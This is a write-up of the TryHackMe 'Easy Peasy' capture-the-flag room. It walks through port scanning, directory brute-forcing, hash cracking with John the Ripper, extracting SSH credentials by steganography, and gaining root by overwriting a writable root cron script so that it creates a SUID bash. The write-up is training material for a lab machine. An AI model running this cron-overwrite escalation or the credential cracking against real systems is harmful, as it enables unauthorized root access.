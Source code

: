```yaml
---
slug: easy peasy
title: Easy Peasy
authors: [hueami]
tags: [tryhackme, ctf]
---
```

Welcome to my first write-up for the CTF room [Easy Peasy on tryhackme](https://tryhackme.com/room/easypeasyctf). Let's dive into the fascinating world of Capture The Flag challenges!

### Task 1: Enumeration through nmap

1. Our first step is to understand the landscape we're dealing with. We'll start by enumerating all the ports using nmap.

```bash
$ sudo nmap 10.10.160.74 -p0-

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:33 CET
Nmap scan report for 10.10.160.74
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```
This fast enumeration over all ports gives us our first piece of the puzzle - the number of open ports.
Next, we perform a detailed scan over the open ports.

```bash
sudo nmap 10.10.160.74 -p080,6498,65524 -sV -A -T5

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:40 CET
Nmap scan report for 10.10.160.74
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   51.18 ms 10.8.0.1
2   51.32 ms 10.10.5.48
```
This information helps us to answer questions 2 and 3.

### Task 2: Compromising the machine 
With our enumeration complete, we move on to compromising the machine.

The room provides a task file that appears to be a wordlist. We’ll save this for later use.
We then proceed to scan subdirectories using feroxbuster, with the directory wordlist `SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt``.
```bash
$ feroxbuster -u http://10.10.160.74 -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Feroxbuster uncovers a directory with another subdirectory. Both directories contain an image, but only the second subdirectory contains hidden information in the source code.

The string appears to be base64 encoded, so we decode it:

```bash
echo ZmxhZ3tmMXJz**********== | base64 -d
```
Decoded string is the flag asked for in question 1.

The two images do not seem to contain valuable information. I checked the EXIF information and tried to find some hidden messages with an [steganography tool](https://futureboy.us/stegano/decinput.html), but had no success. So, I continued to look at the Apache webserver running on port 65524.

The index.html served on port 65524 displayed a default Apache site. The flag for question 3 is hidden in the text.

The robots.txt file (nikto found it) shows me a strange string with the message that this agent may enter. Using it as a custom user agent does not work. I tried several online hash rainbow tables, e.g. [crackstation](https://crackstation.net/), [nitrxgen](https://www.nitrxgen.net/), [hashes.com](https://hashes.com/en/decrypt/hash), [md5hashing](https://md5hashing.net). Search in all types of [md5hashing](https://md5hashing.net) finally finds the flag for question 2.

Looking at the sourcecode revealed a hidden message:
`<p hidden>its encoded with ba....:ObsJmP173N2X6d**********</p>`
I tried several baseX encodings with [cyberchef](https://gchq.github.io/CyberChef/) until I had a hit: `/n0th1ng**********` - looks like a directory and the answer to question 4.

There are two images in the subdirectory. The binary code shown is rubbish. The steganography tool is not able to find a message. In the page source in the subdirectory, I found the string `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e********`. I tried [crackstation](https://crackstation.net/) - no results. So I ran John the Ripper on the string with the previously saved wordlist `easypeasy.txt`:

```bash
$ echo 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e******** > easypeasy
$ john --wordlist=~/Downloads/easypeasy.txt ./easypeasy
```
John gets a result: `m*****************b`
This is the answer for question 5.

I try this password with the two images in the [steganography tool](https://futureboy.us/stegano/decinput.html) - the binary code image is a hit. I get a username `b****g` and a binary encoded password `i**************************y`. The password is the answer for question 6.

With a username and a password, I try to use them for the SSH service that Nmap found on port 6498. It works perfectly fine. The user flag is located in the user’s home as expected, but it looks wrong:

```bash
$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
s********************}
```

This is a hint on the used encryption - the Caesar (or ROT) cipher. The first letter s should be an f for flag, I guessed. That meant I had to rotate by 13 characters - ROT13. Flag found and question 7 solved.

A message caught my attention:

```bash
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```
This suggested that there might be a cron job running that I could exploit to gain root access. To confirm this, I checked the crontab file:

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Indeed, there was a shell script named `.mysecretcronjob.sh` running every minute with root permissions. Checking the permissions of the file showed that the owner was the current user and they had permission to write to this file. This opened up a lot of options for exploitation. I decided to modify the script to make a copy of bash and set the SUID bit, so it would run with its owner’s (root) permissions.

```bash
echo 'cp /bin/bash /var/www/bash; chmod +s /var/www/bash' > /var/www/.mysecretcronjob.sh
```
A few moments later, the modified bash was available. Executing it with the argument `-p` ensured that it did not drop the root privilege, as it would normally do. With the root shell, I was now able to read the root flag:

```bash
$ cat /root/.root.txt
```
The flag looked like there would be a hash to crack again - but fortunately, the form for question 8 accepted it and I did not have to crack a hash again.

And that concludes our journey through this CTF challenge. I hope you found it insightful and engaging. Stay tuned for more adventures in the world of IT security!